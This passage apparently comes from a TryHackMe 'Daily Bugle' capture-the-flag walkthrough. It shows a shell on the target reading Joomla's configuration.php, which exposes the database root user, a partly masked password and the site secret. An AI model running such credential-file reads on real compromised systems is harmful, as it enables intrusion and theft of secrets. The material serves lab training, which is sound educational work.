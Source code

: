 ```
layouts
libraries
media
modules
plugins
robots.txt
templates
tmp
web.config.txt

Here we are lucky enough to stumble upon `configuration.php`.

sh-4.2$ cat configuration.php
cat configuration.php
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'The Daily Bugle';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 👍'root';👍
	public $password = 👍'n----------u';👍
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
	public $live_site = '';
	public $secret = 'UAMBRWzHO3oFPmVC';
	public $gzip = '0';
	public $error_reporting = 'default';
	public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}';
	public $ftp_host = '127.0.0.1';
	public $ftp_port = '21';
	public $ftp_user = '';
	public $ftp_pass = '';
	public $ftp_root = '';
	public $ftp_enable = '0';
	public $offset = 'UTC';
	public $mailonline = '1';
	public $mailer = 'mail';
	public $mailfrom = 'j---h@tryhackme.com';
	public $fromname = 'The Daily Bugle';
	public $sendmail = '/usr/sbin/sendmail';
	public $smtpauth = '0';
	public $smtpuser = '';
	public $smtppass = '';
	public $smtphost = 'localhost';
	public $smtpsecure = 'none';
	public $smtpport = '25';
	public $caching = '0';
	public $cache_handler = 'file';
	public $cachetime = '15';
	public $cache_platformprefix = '0';
	public $MetaDesc = 'New York City tabloid newspaper';
	public $MetaKeys = '';
```